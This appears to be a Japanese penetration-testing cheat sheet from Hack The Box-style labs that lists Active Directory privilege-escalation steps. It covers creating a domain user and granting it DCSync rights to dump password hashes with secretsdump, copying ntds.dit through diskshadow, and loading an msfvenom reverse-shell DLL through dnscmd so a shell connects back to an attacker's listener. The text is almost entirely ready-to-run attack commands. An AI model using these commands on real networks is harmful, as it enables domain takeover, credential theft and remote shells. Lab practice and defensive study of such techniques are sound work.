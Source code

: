 zeus:passwordを追加する
net user zeus password /add /domain
or
net user zeus password /add

ユーザーが作成されたことを確認する
net users /domain

ユーザーをExchange Windowsグループに対して許可を追加する
net group "Exchange Windows Permissions" /add zeus

グループに追加されたことを確認する
net user zeus

最後にDCSync権限を付与する
$pass = convertto-securestring 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\zeus', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity zeus -Rights DCSync

そしてsecretsdumpでハッシュを取得する
impacket-secretsdump 'htb/zeus:password@10.10.10.161'
```
  
  
###  SeRestorePrivilegeでntds.ditを抽出する

```
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

raj.dsh
/home/kali/Tools/Windows-Weapons/SeBackup/raj.dsh

cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```
ㅤ  
ㅤ  
### DNSAdminグループに所属している場合の権限昇格

```
whoami /all
DNS Adminが所属しているかどうか確認

kali側
/home/kali/Tools/Windows-Weapons/share/rev.dll
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f dll -o rev.dll
impacket-smbserver share ./

rlwrap nc -lvnp 443

windows側
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.5\share\rev.dll
cmd /c sc.exe stop dns
cmd /c sc.exe start dns
ここでsmbserverが発火してリバースシェルが実行される
```
  
### AD Recycle Binグループに入っている場合のゴミ箱漁り

```
Get-ADObject -ldapfilter "(&(ObjectClass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
